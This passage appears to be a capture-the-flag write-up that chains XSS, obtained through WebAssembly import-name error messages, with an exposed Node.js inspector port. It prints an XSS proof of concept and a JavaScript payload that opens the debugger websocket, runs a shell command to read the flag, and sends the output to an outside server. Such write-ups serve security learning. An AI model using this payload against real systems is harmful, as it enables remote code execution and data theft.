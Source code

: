```
  "url": "file://",
  "webSocketDebuggerUrl": "ws://localhost:9229/d393084e-b372-407c-972d-cb130dd35d4a"
} ]
```

Looks great, but we can't connect to this by sending the admin bot to a page on our server because it's a different host. There's actually 2 CVEs related to this where you could use DNS rebinding, but that has been fixed in the version on the server.

I started to look for places to do XSS and found a suspicious line near the top of the server:
```js
app.use(function (req, res, next) {
    res.header("Content-Type", "text/html");
    next();
});
```

This forces all responses to be rendered by the server even if the browser would usually sniff them out as a different content type. Since our wasm output is connected to /run/, I thought it would be possible to have the wasm just print out the string and get XSS that way, but turns out it's a dead end because wasm cannot pass a string to `process.emitWarning`, and we can't access `process.stdout.write` even though it would take a buffer.

However, I realized we could use the compiler error messages. Trying to import a function that fails will print its name to stdout. For example, if we upload the following and visit its /run/ page directly, we will get an alert popup.
```
(module
  (import "process" "<script>alert(1)</script>" (func $return (param i32)))
  (func (export "main") (local $meme1 i32)
    i32.const 69420
    call $return
  )
)
```

So we can construct a simple payload that fetches /list/ and then contact the websocket to get access. [This page](https://blog.ssrf.in/post/cve-2018-7160-chrome-devtools-protocol-memo/) describes a simple payload for the node debugger protocol that will execute some code.
```js
const f = async (url) => {
    while(true) {
        try {
            return await fetch(url, options);
        } catch (err) {
            await new Promise(r => setTimeout(r, 100));
        }
    }
};
async function g(){
    let a;
    await f(`http://localhost:9229/json/list`).then(r=>r.json()).then(d=>{a=d});
    let s = new WebSocket(`${a[0][webSocketDebuggerUrl]}`);
    s.onopen = function() {
        data = `require = process.mainModule.require; execSync = require('child_process').execSync; execSync('cat flag.txt');`;
        s.send(JSON.stringify({'id':1,'method':'Runtime.evaluate','params':{'expression': data}}));
    };
    s.onmessage = function (event) {
        fetch(`https://server/?`+btoa(event.data));
    };
};
g();
```
